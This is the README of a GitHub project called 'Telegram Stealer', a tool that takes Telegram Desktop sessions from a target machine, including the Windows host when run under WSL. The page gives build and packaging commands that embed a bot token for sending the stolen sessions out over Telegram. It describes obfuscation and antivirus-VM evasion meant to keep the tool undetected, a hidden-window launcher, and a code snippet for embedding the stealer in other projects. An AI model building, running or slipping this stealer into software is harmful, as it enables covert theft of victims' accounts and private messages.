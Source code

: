 # Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Features

- Steal Telegram Desktop sessions
- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) and packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Works on all platforms, including WSL (on WSL, the binary will get the sessions from its Windows host)
- Portable, you don't need to install anything to run the binary
- Send sessions via Telegram using webhooks
- Try to detect some anti-virus virtual machines to be FUD as long as possible

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```ts
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = (
  telegramChatId: string,
  telegramToken: string,
  archivePassword?: string,
  waitOnStart?: boolean
) => Promise<void>

await stealTelegram('<chat_id>', '<bot_token>', '<archivePassword>', false)
```

## License

[The MIT license](./LICENSE)
